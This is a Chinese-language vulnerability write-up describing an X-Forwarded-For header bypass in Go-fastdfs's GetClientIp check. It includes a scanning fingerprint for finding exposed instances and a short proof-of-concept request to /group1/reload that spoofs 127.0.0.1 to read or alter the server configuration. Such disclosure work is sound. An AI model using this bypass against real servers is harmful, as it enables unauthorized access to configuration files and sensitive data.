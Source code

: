 # 

# Go-fastdfs GetClientIp 未授权访问漏洞

## 漏洞描述

Go-fastdfs GetClientIp方法存在XFF头绕过漏洞，攻击者通过漏洞可以未授权调用接口，获取配置文件等敏感信息

## 漏洞影响

```
Go-fastdfs
```

## 网络测绘

```
"go-fastdfs"
```

## 漏洞复现

主页面

![image-20230417094508409](images/image-20230417094508409.png)

调用读取配置接口，返回 ip 不允许访问

```
/group1/reload?action=get
```

![image-20230417094521737](images/image-20230417094521737.png)

追踪错误信息代码

![image-20230417094533985](images/image-20230417094533985.png)

![image-20230417094542486](images/image-20230417094542486.png)

跟一下 GetClientIp方法，这里会从 X-Forwarded-For 等参数获取值

![image-20230417094554500](images/image-20230417094554500.png)

回到调用的起点，验证方法为调用 IsPeer 参数

![image-20230417094604965](images/image-20230417094604965.png)

![image-20230417094613037](images/image-20230417094613037.png)

这里主要是验证获取到的值是否为配置中的 AdminIps

![image-20230417094623353](images/image-20230417094623353.png)

在配置文件 cfg.json 中 admin_ips 默认为 127.0.0.1 (可被爆破)

![image-20230417100058531](images/image-20230417100058531.png)

所以通过设置 X-Forwarded-For 就可以绕过接口调用限制，执行修改配置文件等操作，验证POC

```
/group1/reload?action=get

X-Forwarded-For: 127.0.0.1
```

![image-20230417100112324](images/image-20230417100112324.png)

